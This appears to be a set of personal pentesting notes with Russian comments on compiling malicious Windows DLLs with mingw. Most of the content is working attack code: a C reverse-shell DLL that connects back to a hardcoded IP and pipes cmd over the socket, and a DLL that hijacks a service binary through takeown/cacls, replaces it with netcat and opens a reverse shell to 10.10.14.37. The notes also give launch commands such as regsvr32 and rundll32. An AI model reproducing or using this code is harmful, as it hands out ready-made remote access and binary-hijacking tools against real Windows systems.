 # c-c-
 
regsvr32.exe ReverseShellDLL.dll (запуск dll)
 
-static     компиляция со всеми билиотеками во внутрь

Cоздание dll


sudo apt install mingw-w64

x86_64-w64-mingw32-gcc-win32 shell.c -shared -lws2_32 -o VerifyThemeVersion.dll

python3 -m pefile exports VerifyThemeVersion.dll (скажет что за функции находятся внутри)

rundll32 shell,0

----------------------
    #include <winsock2.h>
    #include <windows.h>
    #include <io.h>
    #include <process.h>
    #include <sys/types.h>
    #include <stdio.h>
    #include <stdlib.h>
     #include <string.h>



static int ReverseShell(const char *CLIENT_IP, int CLIENT_PORT) {

        WSADATA wsaData;
        if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
                write(2, "[ERROR] WSASturtup failed.\n", 27);
                return (1);
        }

        int port = CLIENT_PORT;
        struct sockaddr_in sa;
        SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
        sa.sin_family = AF_INET;
        sa.sin_port = htons(port);
        sa.sin_addr.s_addr = inet_addr(CLIENT_IP);


        if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
                write(2, "[ERROR] connect failed.\n", 24);
                return (1);
        }


        STARTUPINFO sinfo;
        memset(&sinfo, 0, sizeof(sinfo));
        sinfo.cb = sizeof(sinfo);
        sinfo.dwFlags = (STARTF_USESTDHANDLES);
        sinfo.hStdInput = (HANDLE)sockt;
        sinfo.hStdOutput = (HANDLE)sockt;
        sinfo.hStdError = (HANDLE)sockt;
        PROCESS_INFORMATION pinfo;
        CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

        return (0);
}

void DllMain() {
        ReverseShell("192.168.50.123", 9001);
//        ReverseShell("10.10.14.20", 9001);
}
-----------------------------------------Вызывалка----------------------

x86_64-w64-mingw32-gcc-win32 test.c  -o test.exe
    --------------------------------
#include <windows.h>
#include <stdio.h>

int main( void )
{
        HINSTANCE hDll;

        // Load Dll
        hDll = LoadLibrary(TEXT("max.dll"));

        // If Dll Was Loaded
        if (hDll != NULL){
                printf("DLL Found\n");
                } else {
                printf("DLL Not Found");
                }
        return 0;
}

----------------------------------------------------ДЛЛКА

x86_64-w64-mingw32-gcc-win32 max.c  -o max.dll -shared

   ------------------------------------------

#include <windows.h>

BOOL WINAPI
DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)
{
        switch (dwReason)
        {
         case DLL_PROCESS_ATTACH:
          MessageBox(NULL,
                        "dsfvsdfsd",
                        "dsvsdvs",
                        MB_ICONERROR | MB_OK);
        break;
        }
return TRUE;
}


# Простая DLL на С

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved)

{
  switch (dwReason)
{
case DLL_PROCESS_ATTACH:
        system("cmd.exe /c whoami /all > c:\\users\\public\\pleasesub.txt");

        system("cmd.exe /c takeown /F c:\\share\\bginfo64.exe");
        system("cmd.exe /c cacls c:\\share\\bginfo64.exe  /E /G ginawild:F");
        system("cmd.exe /c icacls c:\\share\\bginfo64.exe >> c:\\users\\public\\pleasesub.txt");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\bginfo64.exe");

        system ("cmd.exe /c copy c:\\inetpub\\wwwroot\\data\\sites\\1\\media\\nc64.exe c:\\share\\nc64.exe");

        system("cmd.exe /c c:\\share\\bginfo64.exe -e cmd.exe 10.10.14.37 9002");
        system("cmd.exe /c ping 10.10.14.37");

        break;
}
return TRUE;
}


x86_64-w64-mingw32-gcc-win32 script.c -o 7-zip64.dll -shared


-----------------------------------------
# Компиляция C# из линукс

sudo apt install mono-devel

mcs -target:library -out:Shell.dll Shell.cs


